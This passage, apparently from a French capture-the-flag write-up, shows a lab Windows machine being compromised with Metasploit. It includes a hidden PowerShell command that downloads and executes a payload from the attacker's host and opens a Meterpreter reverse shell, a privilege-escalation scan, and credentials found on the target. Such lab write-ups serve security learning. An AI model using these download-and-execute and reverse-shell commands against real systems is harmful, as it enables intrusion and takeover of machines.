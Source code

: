 ```plain
[*] Started reverse TCP handler on 10.10.14.177:4444
msf exploit(multi/script/web_delivery) > [*] Using URL: http://10.10.14.177:8080/imyRs8I0j3wnU
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $R=new-object net.webclient;$R.proxy=[Net.WebRequest]::GetSystemWebProxy();$R.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $R.downloadstring('http://10.10.14.177:8080/imyRs8I0j3wnU');
[*] 10.10.10.98      web_delivery - Delivering Payload
[*] 10.10.10.98      web_delivery - Delivering Payload
[*] Sending stage (206407 bytes) to 10.10.10.98
[*] Meterpreter session 1 opened (10.10.14.177:4444 -> 10.10.10.98:49164) at 2018-10-12 10:11:55 +0200
```

On enchaîne alors sur le module *local\_exploit\_suggester* pour chercher une faille d'escalade de privilèges :  

```plain
msf exploit(multi/script/web_delivery) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.98 - Collecting local exploits for x64/windows...
[*] 10.10.10.98 - 17 exploit checks are being tried...
[+] 10.10.10.98 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.98 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[*] Post module execution completed
```

Aucune de ces deux vulnérabilité ne s'avère exploitable... C'est le moment de se sortir les doigts et d'explorer le système par soit même.  

J'ai bien trouvé quelques credentials sur le système :  

```shellsession
c:\temp\scripts>type 1_CREATE_SYSDBA.sql
CREATE LOGIN  WITH PASSWORD='', CHECK_EXPIRATION=OFF, CHECK_POLICY=OFF;CREATE LOGIN sysdba WITH PASSWORD='masterkey', CHECK_EXPIRATION=OFF, CHECK_POLICY=OFF;

c:\temp\scripts>type README_FIRST.txt
Open the SQL Management Studio application located either here:
   "C:\Program Files (x86)\Microsoft SQL Server\120\Tools\Binn\ManagementStudio\Ssms.exe"
Or here:
   "C:\Program Files\Microsoft SQL Server\120\Tools\Binn\ManagementStudio\Ssms.exe"

- When it opens the "Connect to Server" dialog, under "Server name:" type "LOCALHOST", "Authentication:" selected must be "SQL Server Authentication".

   "Login:" = "sa"
   "Password:" = "htrcy@HXeryNJCTRHcnb45CJRY"

- Click "Connect", once connected click on the "Open File" icon, navigate to the folder where the scripts are saved (c:\temp\scripts).
- Select each script in order of name by the first number in the name and run them in order e.g. "1_CREATE_SYSDBA.sql" then "2_ALTER_SERVER_ROLE.sql" then "3_SP_ATTACH_DB.sql" then "4_ALTER_AUTHORIZATION.sql"
If the scripts begin from "2_*.sql" or "3_*.sql" it means the previous scripts ran fine, so begin from the lowest script number ascending.

For the vbs scripts:
- Go to windows Services and stop ALL SQL related services.
- Open command prompt with elevated privileges (Administrator).
- paste the following commands in command prompt for each script and click ENTER...
```